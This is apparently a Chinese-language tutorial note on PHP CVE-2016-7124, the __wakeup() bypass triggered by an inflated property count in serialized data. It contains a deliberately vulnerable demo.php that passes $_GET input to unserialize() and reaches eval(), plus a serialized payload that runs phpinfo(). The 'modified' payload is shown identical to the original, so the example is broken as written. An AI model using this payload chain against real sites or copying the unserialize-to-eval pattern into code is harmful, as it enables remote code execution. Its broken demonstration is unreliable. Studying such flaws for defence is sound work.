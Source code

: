 ###  CVE-2016-7124

这是一个 PHP 的 CVE，影响版本：

1. PHP5 < 5.6.25
2. PHP7 < 7.0.10

当序列化字符串中表示对象中属性个数的数字，大于真正的属性个数时，就会跳过 `__wakeup` 函数的执行（会触发两个长度相关的 `Notice: Unexpected end of serialized data`）。

>我的猜测，PHP绕过`__wakeup()`是因为`__wakeup`在反序列化完成之后进行，包括正常的反序列化完成和反序列化报错，而当表示对象中属性个数的数字大于真正的属性个数时，就会导致反序列化是一个没有完成的状态，也就是直接将对象反序列化到一个不完整的状态。这将绕过 `__wakeup()` 函数的执行，因为 PHP 无法通过未知的属性来检查对象的完整性。

demo.php

```php
<?php
highlight_file(__FILE__);
class A {
    public $test;

    function __wakeup() {
        $this->test = new B;
    }

    function __destruct() {
        $this->test->check();
    }
}

class B {
    function check() {
        echo phpversion()."\n";
    }
}

class C {
    public $boom;
    function check() {
        eval($this->boom);
    }
}

if (isset($_GET['payload'])){
    $user = unserialize($_GET['payload']);
}else{
    $user = new A();
    $user->test = new B();
}
```

```
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
修改为
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
即可执行payload
```
